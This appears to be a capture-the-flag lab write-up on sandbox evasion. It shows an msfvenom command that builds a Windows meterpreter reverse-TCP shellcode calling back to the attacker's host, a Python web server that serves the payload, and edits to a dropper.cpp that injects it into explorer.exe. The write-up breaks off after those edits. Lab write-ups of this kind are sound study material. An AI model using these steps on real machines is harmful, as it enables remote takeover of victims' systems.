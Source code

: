 The Task as us to :


 1. Check and see if the device is joined to an Active Directory Domain
 2. Check if the system memory is greater than 1GB of RA
 3. Implement an outbound HTTP request to 10.10.10.10
 4. Implement a 60-second sleep timer before your payload is retrieved from your web server

In the Materials folder we have the dropper.cpp we can use to drop a shellcode. After reading this code, we can see several lines to modify.

We can begin by creating a reverse shell with msfvenom and starting a webserver :

```console
root@ip-10-10-46-166:~# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.46.166 LPORT=6666 -f raw -o index.raw
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Saved as: index.raw
root@ip-10-10-46-166:~# ls
Desktop  Downloads  index.raw  Instructions  Pictures  Postman  Rooms  Scripts  thinclient_drives  Tools
root@ip-10-10-46-166:~# 
root@ip-10-10-46-166:~# python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
{: .nolineno }

We can now adapt our dropper.cpp lines :

```console
//Update the dwSize variable with your shellcode size. This should be approximately 510 bytes
SIZE_T dwSize = 510;

//Update the OpenProcess Windows API with your Explorer.exe Process ID. This can be found in Task Manager
hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, 5524);
```
{: .nolineno }

![explorer.exe](/images/thm/sandboxevasion/sandboxevasion_1.png)
_explorer.exe_
